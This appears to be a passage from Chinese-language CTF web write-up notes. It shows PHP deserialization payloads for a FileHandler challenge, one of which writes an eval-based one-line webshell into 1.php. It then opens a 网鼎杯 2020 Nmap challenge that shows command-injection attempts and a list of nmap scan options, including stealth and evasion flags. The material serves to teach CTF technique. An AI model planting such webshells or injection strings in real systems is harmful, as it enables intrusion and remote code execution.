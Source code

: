 第一种，直接查看flag

```php
<?php
class FileHandler {

    public $op=2;
    public $filename='flag.php';
    public $content;

}
echo(serialize(new FileHandler()));
```

第二种，尝试写入一句话木马

```php
<?php
class FileHandler {

    public $op=1;
    public $filename='1.php';
    public $content='<?php eval($_POST[1])?>';
}
echo(serialize(new FileHandler()));
```

然后发现权限不够，而写入`index.php`又不行，这种方法看来不行



## [网鼎杯 2020 朱雀组]Nmap



打开题目

![image-20220831204508345](D:\Typora\note\CTF\web\网鼎杯.assets\image-20220831204508345.png)

很直接，很明显就是直接`nmap ip `

```php
尝试 | 执行执行命令，但被过滤
Hostname: 127.0.0.1 \| ls (user)
尝试 ; 绕过，也没用
Host maybe down
```

那就很明显就是考**nmap**这个命令了

这里给出**nmap**一些常用命令

```php
nmap -v 127.0.0.1							给出了远程机器更详细的信息，显示冗余信息(扫描细节)
nmap -iL nmaptest.txt 						运行带“iL” 选项的nmap命令来扫描文件中列出的所有IP地址
nmap 192.168.0.* --exclude 192.168.0.100	使用“-exclude”选项来排除某些你不想要扫描的主机
nmap -A 192.168.0.101						启用操作系统和版本检测，脚本扫描和路由跟踪功能
nmap -O 127.0.0.1							使用选项“-O”和“-osscan-guess”也帮助探测操作系统信息
nmap -sA 192.168.0.101						扫描远程主机以探测该主机是否使用了包过滤器或防火墙
nmap -PN 192.168.0.101						扫描主机检测其是否受到数据包过滤软件或防火墙的保护
nmap -sP 192.168.0.*						找出网络中的在线主机
nmap -F 192.168.0.101						快速扫描，仅扫描nmap-services文件中的端口而避开所有其它的端口
nmap -f 192.168.96.4						使用小数据包发送，避免被识别出
nmap -r 192.168.0.101						不会随机的选择端口扫描
nmap -p 80,443 192.168.0.101				使用“-P”选项指定你想要扫描的端口
nmap -sV 192.168.0.101						查找主机服务版本号
nmap -PS 192.168.0.101						使用TCP ACK和TCP Syn方法来扫描远程主机（防火墙会阻断标ICMP包）
nmap -Pn 192.168.96.4					  	目标机禁用ping，绕过ping扫描
nmap -sn 192.168.96.4						对目标进行ping检测，不进行端口扫描（发送四种报文确定目标是否存活）
nmap -sS 192.168.0.101						执行一次隐蔽的扫描，安全，快
```